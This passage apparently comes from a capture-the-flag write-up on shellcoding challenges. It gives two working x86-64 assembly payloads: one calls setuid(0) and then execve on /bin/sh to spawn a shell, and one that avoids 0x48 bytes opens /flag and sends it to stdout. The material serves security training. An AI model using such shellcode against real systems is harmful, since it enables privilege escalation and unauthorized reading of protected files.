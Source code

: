 Use [Online disassembler](https://defuse.ca/online-x86-assembler.htm) to check the opcode.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

    xor rax,rax
    or  rax,0x69
    xor rdi,rdi
    syscall

    xor     rdx, rdx
    mov     rbx, 0x68732f6e69622f2f # '//bin/sh'
    shr     rbx, 0x8
    push    rbx
    mov     rdi, rsp
    push    rax
    push    rdi
    mov     rsi, rsp
    mov     al, 0x3b # syscall execve
    syscall
```

## 4
Task: This challenge requires that your shellcode have no H (`\x48`) bytes!

Use [Online disassembler](https://defuse.ca/online-x86-assembler.htm) to check the opcode.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

# open flag fd
xor eax, eax
mov eax, 2
push [rip+flag]
push rsp
pop rdi
xor esi, esi
syscall

# sendfile
xor edi, edi
mov edi, 1
xor esi, esi
mov esi, eax
xor eax, eax
mov eax, 0x28
xor edx, edx
xor r10d, r10d
mov r10d, 0x37
syscall

xor eax, eax
mov eax, 60
xor edi, edi
syscall

flag:
    .string "/flag"
```